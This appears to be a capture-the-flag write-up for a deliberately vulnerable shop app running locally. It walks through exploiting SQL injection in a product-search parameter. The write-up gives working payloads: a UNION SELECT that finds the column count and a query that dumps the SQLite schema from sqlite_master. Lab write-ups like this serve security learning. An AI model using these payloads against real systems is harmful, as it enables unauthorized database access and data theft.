

## Database Schema
### Challenge: Exfiltrate the entire DB schema definition via SQL Injection.
### Category: Injection

Using burp, intercept a HTTP request for search product. Observe that the parameter `q=` is injectable.

When using burp repeater to modify the parameters `apple'` 

```
GET /rest/products/search?q=apple' -- HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 
...
```

We can observe from the error messages in response that this is a `sqlite3` database and the following sql statement is used for search function 

```sql
"SELECT * FROM Products WHERE ((name LIKE '%apple'%' OR description LIKE '%apple'%') AND deletedAt IS NULL) ORDER BY name"
```

Using the following sql statement we can `a%'))+union+select+1,2,3,4,5,6,7,8,9+--`
we can infer the number of columns which leads us to 9 since there is an error message `"SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns",`.


To dump sqlite schema, we can use the following sql select statement cheatsheet from [https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet)
```sql
SELECT sql FROM sqlite_master WHERE type='table'
```

To combine with our sql union select statement `asd'))+union+select+sql,2,3,4,5,6,7,8,9+from+sqlite_master+where+type='table'--`



We have completed the challenge, but since this is a little not very 'humanly readable'. We could do the simple trick of copy paste it to sublime, and replace all 'TABLE' word with ENTER key. We have a the schema in a easier to see format

